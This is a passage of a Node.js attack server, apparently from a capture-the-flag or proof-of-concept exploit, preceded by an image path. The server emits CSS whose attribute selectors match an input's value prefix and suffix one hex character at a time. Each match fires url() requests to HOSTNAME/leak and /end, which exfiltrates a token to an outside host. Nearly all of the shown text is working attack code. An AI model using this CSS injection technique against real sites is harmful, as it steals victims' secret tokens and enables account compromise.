 ```
          n +
          ":url(" +
          HOSTNAME +
          "/leak?post=" +
          e +
          postfix +
          ")}"
      )
      .join("") +
    "div ".repeat(n) +
    "input{background:var(--e" +
    n +
    ")}" +
    [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, "a", "b", "c", "d", "e", "f"]
      .map(
        (e) =>
          'input[value^="' +
          prefix +
          e +
          '"]{--s' +
          n +
          ":url(" +
          HOSTNAME +
          "/leak?pre=" +
          prefix +
          e +
          ")}"
      )
      .join("") +
    "div ".repeat(n) +
    "input{border-image:var(--s" +
    n +
    ")}" +
    "input[value=" +
    prefix +
    postfix +
    "]{list-style:url(" +
    HOSTNAME +
    "/end?token=" +
    prefix +
    postfix +
    "&)};"

  response.writeHead(200, { "Content-Type": "text/css" })
  response.write(css)
  response.end()
  n++
}

// Server listening
const server = http.createServer(requestHandler)

server.listen(port, (err) => {
  if (err) {
    return console.log("[-] Error: something bad happened", err)
  }
  console.log("[+] Server is listening on %d", port)
})

function log() {
  if (DEBUG) console.log.apply(console, arguments)
}

```